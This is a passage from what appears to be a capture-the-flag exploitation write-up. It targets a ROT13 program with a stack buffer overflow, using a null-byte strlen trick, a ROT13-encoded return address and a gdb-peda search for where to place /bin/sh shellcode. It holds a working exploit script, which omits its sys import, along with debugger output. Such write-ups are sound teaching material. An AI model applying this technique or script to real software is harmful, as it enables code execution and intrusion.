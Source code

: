Yep. So we're definitely returning to an address we control now. However, what happened to the contents of tmp? Before we inserted the null byte we had data in there, now we don't. It's because nothing is being left over there since we're only overwriting an extra 255 bytes. If we write 300 "B"s instead:

```
koji@pwnbox32:~/Desktop/rot13$ ./sploit.py | ./a.out 
ROT13-ATOR
Input strings. Send an empty newline to end.
Buffer is full, ending.
tmp: len:47 data:[OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
]
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

Segmentation fault (core dumped)
```

Perfect! We can store our shellcode in tmp and return to it. I'll be using a 21-byte exec "/bin/sh" [shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php). So let's see what address it gets stored in by searching for our string of "O"s in gdb:

```
Breakpoint 1, 0x08048799 in main ()
gdb-peda$ find OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
Searching for 'OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO' in: None ranges
Found 7 results, display max 7 items:
  a.out : 0x804a060 ('O' <repeats 46 times>, "\n")
[stack] : 0xbfffcc12 ('O' <repeats 46 times>, "\n]\n")
```

The address at a.out is what we want, since it'll be static. We'll need to encode the address first so that it gets decoded correctly by rotinput. Since the address consists of non-letters, we just need to add 13 to each byte. This gives us "\x6d\xad\x11\x15" With a bit of experimenting, we find the offset:

```python
#!/usr/bin/env python

buf = "" 
buf += "A"*254 + "\n"           # write enough bytes to fill the buffer
buf += "\x0d"                   # null terminate the string to fool strlen()
buf += "B"*12                   # padding to overwrite saved return pointer
buf += "\x6d\xad\x11\x15"       # address of our shellcode
buf += "C"*300 + "\n"
sys.stdout.write(buf)
```

In gdb, we see that main will return to our address which contains our payload of "P"s

```text
[----------------------------------registers-----------------------------------]
EAX: 0x100 
EBX: 0x4f4f4f4f ('OOOO')
ECX: 0xb7fc1b07 --> 0xfc28980a 
EDX: 0xb7fc2898 --> 0x0 
ESI: 0x0 
EDI: 0x4f4f4f4f ('OOOO')
EBP: 0x4f4f4f4f ('OOOO')
ESP: 0xbffff27c --> 0x804a07a ('P' <repeats 36 times>, "\n")
EIP: 0x8048799 (<main+332>: ret)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048796 <main+329>:    pop    ebx
   0x8048797 <main+330>:    pop    edi
   0x8048798 <main+331>:    pop    ebp
=> 0x8048799 <main+332>:    ret    
```